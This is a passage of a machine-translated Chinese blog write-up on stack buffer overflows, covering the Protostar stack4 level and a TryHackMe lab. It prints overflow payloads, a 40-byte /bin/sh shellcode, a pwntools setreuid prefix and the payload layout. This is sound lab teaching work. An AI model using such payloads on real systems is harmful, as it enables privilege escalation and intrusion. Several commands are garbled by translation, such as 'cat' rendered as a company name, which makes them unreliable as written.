user@protostar:/opt/protostar/bin$ python -c 'print("A"*75)' | ./stack4
user@protostar:/opt/protostar/bin$ python -c 'print("A"*76)' | ./stack4Segmentation fault
```

**我们可以说 76 字节之后是覆盖指令指针的区域，所以我们需要 76 个‘A’和小端字节序的 *win* 的地址。**

```
user@protostar:/opt/protostar/bin$ objdump -x stack4 | grep win080483f4 g     F .text 00000014              win
```

**于是我们得到了 win 的地址，就是“0x080483f4”。现在我们只需要用 Python 打印 76 'A，然后是小端地址。**

```
user@protostar:/opt/protostar/bin$ python -c 'print("A"*76 + "\xf4\x83\x04\x08")' | ./stack4**code flow successfully changed**Segmentation fault 
```

**耶！！**代码流已成功更改**。我们执行了 win 函数。**

> **分段故障？？这是因为在代码执行了 win 函数之后，它试图返回到堆栈上的下一个值。哪一个不是有效的代码区域:)**

# **如果我告诉你这只是一个开始呢？？**

**现在是时候用**外壳代码**编写我们的第一个 BufferOverflow 了，它向您展示了 bufferOverflow 将会有多么强大。在前面的例子中，我们已经看到，当程序接受用户控制的输入时，它可能不会检查长度，因此恶意用户可能会覆盖值并实际更改变量。我们可以控制函数返回的位置，并改变程序的执行流程。我们知道，我们可以通过将返回地址指向某个内存地址来控制执行流程，那么我们实际上如何做一些有用的事情呢？？这就是“**外壳代码”**的用武之地。**

****

# **外壳代码**

**一种远程注入的特殊代码，黑客利用它来利用各种软件漏洞。之所以这样命名，是因为它通常会生成一个命令外壳，攻击者可以通过该外壳控制受影响的系统。它是一个机器码指令列表，开发的方式允许它在运行时被注入易受攻击的应用程序。**

> **一般流程如下:**
> 
> **➟找出缓冲区的起始地址和返回地址的起始地址。**
> 
> **➟Calculate 这些地址之间的差异，所以你知道有多少数据进入溢出。**
> 
> **通过在缓冲区中输入外壳代码，在外壳代码和返回地址之间输入随机数据，并在返回地址中输入缓冲区的地址，➟Start 退出。**

> **对于这个例子，让我们从 THM room " [缓冲区溢出](https://tryhackme.com/room/bof1)"进行同样的测试。看看 overflow-3 文件夹。**

# **挑战是什么？？**

> **打开一个 shell 并阅读 secret.txt 文件的内容**

****

**拒绝许可！！**

**在这个文件夹中，你会发现下面的 C 代码。**

```
//* buffer-overflow.c *//#include <stdio.h>
#include <stdlib.h>void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```

**argv[1]，它是一个长度为 140 字节的缓冲区的命令行参数。由于 strcpy 的性质，它不检查数据的长度。所以我们要变些魔术！**

****

**分段故障**

> **4 字节被覆盖。(0x0000000041414141)
> 偏移量为(156–4)152 字节。**

**几次尝试都以“非法指令”错误失败后，我找到了一个外壳代码(40 字节)。**

**shell code = ' \ x6a \ x3b \ x58 \ x48 \ x31 \ xd2 \ x49 \ xb8 \ x2f \ x2f \ x62 \ x69 \ x6e \ x2f \ x73 \ x68 \ x49 \ xc1 \ xe8 \ x08 \ x41 \ x50 \ x48 \ x89 \ xe7 \ x52 \ x57 \ x48 \ x89 \ xe6 \ x0f \ x05 \ x6a \ x3c \ x58 \ x48 \ x31 \ xff \ x05 '**

****卡特彼勒/etc/passwd****

**包含以下信息的冒号分隔文件:用户名、加密密码、用户 ID 号(UID)、用户组 ID 号(GID)。**

****

**我们可以使用 pwntools 为 shell 代码生成一个前缀来运行 SETREUID**

```
**setreuid**() sets real and effective user IDs of the calling process.
```

> **(1002:用户 2)**
> 
> ***pwn shell craft-f d amd64 . Linux . setre uid 1002***
> 
> ****我们的有效载荷长度****
> 
> **NOP sled = 90
> setre uid = 14
> Shellcode = 40
> Random chars = 8
> 内存地址= 6**
> 
> **90 + 14 + 40 + 8 + 6 = 158**

> ****利用****

**用 python 写漏洞利用超级容易。我的漏洞如下所示。**

****

**让我们运行漏洞→。/buffer-overflow $(python exploit . py；猫)**

> **嘣！成功开发**

****

# **—注意—**

**这只是一个开始..！将来，我们会讨论游戏的下一关😎！！**

> **🔹社交网络→联系我！🥰**

*****随时在推特上连接*** [@7h3h4ckv157](https://twitter.com/7h3h4ckv157)**

****

**感谢您的阅读..！！😉**